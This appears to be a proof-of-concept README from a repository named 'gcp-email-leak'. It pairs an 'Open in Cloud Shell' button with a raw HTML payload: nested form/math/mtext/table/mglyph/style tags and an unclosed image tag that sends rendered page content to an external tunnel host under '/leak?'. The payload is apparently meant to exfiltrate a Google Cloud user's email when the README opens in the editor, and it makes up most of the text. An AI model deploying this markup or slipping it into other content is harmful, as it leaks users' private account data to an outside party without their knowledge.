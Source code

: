 [![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?cloudshell_git_repo=https://github.com/Nowasky/gcp-email-leak&open_in_editor=README.md)

<form><math><mtext><table><mglyph><style><img/src='https://rotten-fish-80.loca.lt/leak?</style><img/src>'>
